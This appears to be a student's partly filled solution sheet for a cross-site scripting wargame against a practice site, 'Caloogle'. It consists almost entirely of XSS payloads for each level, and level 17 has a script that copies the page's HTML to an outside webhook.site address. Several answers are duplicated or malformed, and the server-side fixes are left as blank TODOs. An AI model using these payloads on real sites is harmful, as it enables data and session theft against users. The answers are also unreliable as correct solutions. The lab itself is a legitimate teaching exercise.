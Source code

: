 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success(1)</script>
```

# 2. No Script Allowed (3 points)

```
<SCRIPT><script>success("")</script><SCRIPT>
```

# 3. One More Time, Like You Mean It (3 points)

```
<script><input onfocus=java:success("") autofocus></script>
```

# 4. An Open-and-Shut Case (3 points)

```
<script><input onfocus=java:success("") autofocus></script>
```

# 5. Time to Mix Things Up (3 points)

```
<script><input onfocus=java:success("") autofocus></script>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<input onfocus=java:success("") autofocus>
```


# 7. Between a Rock And a Hard Place (3 points)

```
<input onfocus=java:success("") autofocus>
```


# 8. Angle of Death (6 points)

```
<<div onclick=success("")>>salam</div>

```
TODO: Replace this with your attack input.
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
<iframe"<svg onload=success("")>">
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: <iframe""<svg onload=success()>"">
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO:  '><SCRIPT>success();</SCRIPT>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: http://caloogle.xyz:4140/search?q=a&lang=en%22%20onload=success(1)
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: </ScrIpt><script>success(1)</script>
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//ScrIpt><script>success(1)<<//SCript>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO:  
function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')

```

# 18. Congrats

N/A

# Əlavə qeydlər

```
Əlavə qeydlərinizi yazın
```
